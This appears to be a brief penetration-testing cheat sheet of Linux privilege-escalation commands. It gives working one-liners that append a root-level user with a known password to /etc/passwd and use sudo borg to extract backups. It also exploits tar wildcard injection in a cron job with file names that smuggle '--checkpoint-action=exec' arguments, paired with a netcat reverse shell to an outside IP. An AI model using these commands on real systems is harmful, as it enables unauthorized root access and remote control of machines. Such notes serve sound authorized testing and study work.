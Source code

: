 # Add root user to passwd file (root2:w00t)
```bash
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
Password: w00t
```

-----------------------

# Exploit borg backup
```bash
sudo /usr/bin/borg list *
sudo /usr/bin/borg extract --stdout /opt/borgbackup::home
```
-----------------------

# Abuse tar wildcard ~tar -zxf /tmp/backup.tar.gz *

Saying that cron is the following
cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
```bash
cd /opt/admin
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.169 6666 >/tmp/f" > demo.sh
chmod +x demo.sh
touch -- "--checkpoint-action=exec=sh demo.sh"
touch -- "--checkpoint=1"
```
-----------------------
